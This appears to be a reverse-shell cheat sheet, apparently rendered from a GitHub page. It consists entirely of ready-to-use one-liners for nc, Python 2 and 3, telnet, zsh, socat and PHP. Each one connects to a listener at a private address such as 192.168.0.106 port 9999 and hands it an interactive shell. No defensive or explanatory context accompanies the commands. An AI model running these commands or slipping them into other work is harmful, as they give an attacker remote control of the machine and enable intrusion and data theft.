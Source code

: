 nc

```
nc -c sh 192.168.0.0 4444
```

python2

```
export RHOST="192.168.0.106";export RPORT=9999;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.0.106",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

python3

```
export RHOST="192.168.0.106";export RPORT=9999;python3 -c 'import 
sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'

python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.0.106",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'

python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("192.168.0.106",9999));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")'
```

telnet

```
TF=$(mktemp -u);mkfifo $TF && telnet 192.168.0.1 9999 0<$TF | sh 1>$TF
```

zsh

```
zsh -c 'zmodload zsh/net/tcp && ztcp 192.168.0.106 9999 && zsh >&$REPLY 2>&$REPLY 0>&$REPLY'
```

socat

```
socat TCP:192.168.0.106:9999 EXEC:sh

socat TCP:192.168.0.106:9999 EXEC:'sh',pty,stderr,setsid,sigint,sane
```

php

```
php -r '$sock=fsockopen("192.168.0.106",9999);exec("sh <&3 >&3 2>&3");'
php -r '$sock=fsockopen("192.168.0.106",9999);shell_exec("sh <&3 >&3 2>&3");'
php -r '$sock=fsockopen("192.168.0.106",9999);system("sh <&3 >&3 2>&3");'
php -r '$sock=fsockopen("192.168.0.106",9999);passthru("sh <&3 >&3 2>&3");'
php -r '$sock=fsockopen("192.168.0.106",9999);`sh <&3 >&3 2>&3`;'
php -r '$sock=fsockopen("192.168.0.106",9999);popen("sh <&3 >&3 2>&3", "r");'
php -r '$sock=fsockopen("192.168.0.106",9999);$proc=proc_open("sh", 
array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'
```
